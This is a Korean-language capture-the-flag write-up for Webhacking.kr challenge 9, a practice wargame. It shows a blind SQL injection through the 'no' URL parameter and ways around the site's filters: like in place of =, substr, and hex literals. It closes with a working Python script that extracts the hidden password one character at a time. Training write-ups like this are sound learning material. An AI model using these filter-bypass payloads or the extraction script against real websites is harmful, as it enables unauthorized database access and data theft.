 ```yaml
---
title: "Webhacking.kr challenge(old) 9th Write-Up"
tags: [blindsqli, wargame]
categories: [SQLi]
---
```


Webhacking.kr 9 Write-Up
------------------------

## **문제 분석**

이 문제의 경우 많은 걸 배울 수 있던 문제였습니다. 여태까지 해왔던 SQL Injection의 경우 입력 form을 target으로 진행된 반면, 
이번의 경우 정말 blind SQL Injection의 정석이라고 생각될 정도의 문제였습니다.

먼저 문제를 클릭하면 다음과 같은 화면을 먼저 볼 수 있었습니다.

![webhacking_kr_9_main](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_main.png)

password를 제출하는 입력칸과 1, 2, 3 각각 hyperlink를 확인할 수 있었습니다. 먼저 각각의 hyperlink를 눌러서 확인해보면 1번은 Apple, 2번은 Banana가 출력되며 
3번의 경우 문제 해결 조건과 관련있을 법한 내용을 출력하였습니다.

![webhacking_kr_9_3](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_3.png)

사진을 보면 알 수 있듯이 Secret이라고 되어 있으며 id, no 두 개의 column이 있고 no 3의 id가 password라고 되어 있습니다.

가장 먼저 찾을 수 있던 것은 no에 관한 것인데 hyperlink의 숫자가 URL의 GET 인자로 전달해주는 숫자와 일치하는 것을 확인할 수 있었습니다.

>*https://webhacking.kr/challenge/web-09/?no=3*
3을 눌러서 접속하였을 때의 URL

## **풀이 방법 찾기**

이 이후에 제대로 갈피를 잡지 못하고 main page에서 확인할 수 있던 입력 form에서 SQL Injection을 실시하였으나 이는 해결에 접근할 수 없었습니다.

풀이 방법을 찾아본 결과 입력 form이 아닌 no 인자를 전달하는 곳을 통해서 blind SQL Injection을 수행할 수 있었습니다.

풀이 방법을 보고 정말 정석적인 blind SQL Injection이라고 느끼게 된 점이 no 값에 1 ~ 3이 아닌 다른 값이 전달될 경우 제대로 페이지가 로딩 되지 않는 점을 이용하여 Injection을 수행하는 것이었습니다.

또한 필터링 되는 문자가 있을 경우 Access Denied 라는 문구가 출력되었습니다. 이를 위해서는 if문을 사용하였습니다.

- **if문 구조**

if문의 구조는 if(A, B, C)로 A의 결과가 참일 경우 B를, 거짓일 경우 C를 반환합니다. 이 문제의 경우 B에는 3, C에는 1, 2, 3이 아닌 다른 값을 입력하여 참과 거짓을 구분하였습니다.

여기서 비교를 위한 연산자인 =이 필터링 되어 like를 사용하여 값을 비교하였습니다. 또한 쿼리문에 공백이 있을 경우에도 Access Denied가 출력되었는데 이는 공백을 필터링한 것이 아닌 % 문자가 필터링 되기 때문에 공백이 URL Encoding되어 발생되는 것이었습니다.

따라서 다음과 같은 형식으로 해야 필터링을 우회할 수 있었습니다.

```python
?no=if(length(id)like(0),3,0)
```

이 때 페이지의 html code를 살펴보았을 때 form의 max length가 11이었기에 1부터 11까지를 범위로 잡고 진행하였습니다.

* * *

id의 길이는 11글자였으며 최종적으로 문자열을 알아낼 필요가 있었습니다. 자주 사용되는 함수인 substring을 입력하였을 때는 필터링 되었으나 substr로 입력할 경우 필터링 되지 않았기에 사용할 수 있는 것을 확인할 수 있었습니다.

문제는 %가 필터링 되기 때문에 single quotes와 double quotes도 사용할 수 없었기에 이를 우회할 방법이 필요했습니다. 또한 문자열과 관련되서 자주 사용되는 char, ascii, ord 함수도 모두 필터링 되었기 때문에 다른 방법을 사용할 필요가 있었는데 hex 값을 사용할 경우 query가 가능하다는 것을 알 수 있었습니다.

문자열을 추출하는 과정에서 %와 _ 문자도 포함되어 출력되었는데 이를 위해서 해당 문자들의 경우 생략하도록 작성하였습니다. 또한 대/소문자 구분을 하지 않아서 결과적으로 정상적인 결과는 아닌 값을 알 수 있을 정도의 결과물이 출력되었습니다.

작성한 코드는 다음과 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/web-09/"
cookies = {"PHPSESSID":"1sufshmhf7a3l4p5pi8mh8nepq"}
ref = "Secret"
answer = ""

for a in range(1, 11+1):
    params = "?no=if(length(id)like({}),3,0)".format(a)
    requrl = url+params
    response = req.get(requrl, cookies=cookies)
    if ref in response.text:
        print("id length is \"{}\"".format(a))

for i in range(1, 11+1):
    for j in range(33, 126+1):
        if chr(j) == '%' or chr(j) == '_':
            continue
        key = hex(j)
        params = "?no=if(substr(id,{},1)like({}),3,0)".format(i, key)
        requrl = url+params
        response = req.get(requrl, cookies=cookies)
        if ref in response.text:
            answer += chr(j)


print("answer is \"{}\"".format(answer))
``` 
